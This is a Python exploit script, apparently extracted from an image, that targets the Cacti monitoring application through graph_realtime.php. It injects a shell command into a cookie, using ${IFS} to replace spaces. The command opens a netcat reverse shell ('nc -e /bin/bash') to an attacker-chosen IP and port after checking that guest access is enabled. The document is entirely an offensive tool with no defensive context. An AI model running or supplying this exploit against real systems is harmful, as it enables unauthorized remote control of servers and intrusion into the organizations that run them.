 ```
import requests

import sys

import warnings

from bs4 import BeautifulSoup

from urllib.parse import quote

warnings.filterwarnings(“ignore”, category=UserWarning, module=‘bs4’)

if len(sys.argv) != 4:

print("[~] Usage : ./Cacti-exploit.py url ip port")

exit()

url = sys.argv[1]

ip = sys.argv[2]

port = sys.argv[3]

def send_exploit(url):

payload = “;nc${IFS}-e${IFS}/bin/bash${IFS}%s${IFS}%s” % (ip, port)

cookies = {‘Cacti’: quote(payload)}

path = url+"/graph_realtime.php?action=init"

req = requests.get(path)

if req.status_code == 200 and “poller_realtime.php” in req.text:

print("[+] File Found and Guest is enabled!")

print("[+] Sending malicous request, check your nc ;)")

requests.get(path, cookies=cookies)

else:

print("[+] Error while requesting the file!") `send_exploit(url)` 
```
